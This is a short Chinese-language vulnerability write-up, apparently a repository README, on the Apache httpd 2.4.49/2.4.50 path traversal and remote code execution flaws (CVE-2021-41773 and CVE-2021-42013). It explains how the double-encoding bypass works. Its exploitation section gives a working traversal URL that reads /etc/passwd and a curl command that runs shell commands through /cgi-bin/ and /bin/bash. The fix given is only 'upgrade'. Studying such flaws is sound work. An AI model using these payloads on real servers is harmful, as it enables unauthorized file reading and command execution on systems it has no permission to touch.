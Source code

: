 ### 一 漏洞描述
Apache HTTP Server 是 Apache 基础开放的流行的 HTTP 服务器。其存在目录穿越文件读取漏洞，漏洞仅影响 httpd 2.4.49， https 2.4.50不完全修复可绕过，如果开启 mod_cgi 则可RCE。

2.4.50 添加的补丁是对 .%2e 和 %2e%2e 进行了校验，但是我们在 request.c 中注意到还会调用 ap_unescape_url 来对 url 进行又一次的编码，所以通过两次编码就可以绕过。

CVE-2021-41773——版本等于2.4.49
CVE-2021-42013——版本等于2.4.49/50

### 二 漏洞利用
/icons/.%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd

命令执行:  
```
curl -d "echo;id" "http://localhost:8888/cgi-bin/%2e%2e/%2e%2e/%2e%2e/%2e%2e/bin/bash"
```
![img.png](img.png)

### 三 漏洞修复
升级

> 参考链接  
> https://blog.csdn.net/qq_38154820/article/details/123267562  
> https://blog.csdn.net/weixin_45260839/article/details/125113167
